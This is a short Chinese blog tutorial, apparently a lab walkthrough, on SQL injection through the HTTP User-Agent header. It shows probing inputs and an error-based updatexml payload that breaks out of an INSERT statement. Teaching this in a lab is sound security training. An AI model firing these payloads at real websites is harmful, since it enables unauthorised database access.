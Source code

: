 这里主要是写UA注入

我们先进行判断



<img src="https://i-blog.csdnimg.cn/blog_migrate/e52ea35fc82ea2a1e61eaad108d8bd4e.png" alt="" style="max-height:295px; box-sizing:content-box;" />


这里

出现了一个ip地址 然后又有一个登入注册框

我们可以看看

首先 我们先进行登入 **一定要登入成功！！** 

然后我们进行抓包 因为修改UA 要么用hackbar 要么就是bp最方便

我们不知道ua是什么语句 我们就随便输入一个' 看看

```sql
User-Agent: '
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/ea948bb44edd09e8f6e3c02a6184f8a5.png" alt="" style="max-height:335px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/257e528ca4b0cad6ad6bf8b7ae86baba.png" alt="" style="max-height:82px; box-sizing:content-box;" />


发现报错信息了

我们继续测试

```sql
User-Agent: '1'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9d6b13ca7eb0b7aff02afa6462c41682.png" alt="" style="max-height:138px; box-sizing:content-box;" />




发现报错了

我们就可以猜

```csharp
('ua','ip地址','用户')
```

差不多是这样 那我们只有 ua是可控的

我们就想想看怎么可以实现

```cobol
('' or updatexml(1,0x7e,3),0,1)-- +','ip地址','用户')

通过构造报错注入

这里就实现了('' or updatexml(1,0x7e,3),0,1) 这个语句

三个参数 1：'' or updatexml(1,0x7e,3)
2:0
3:1
```
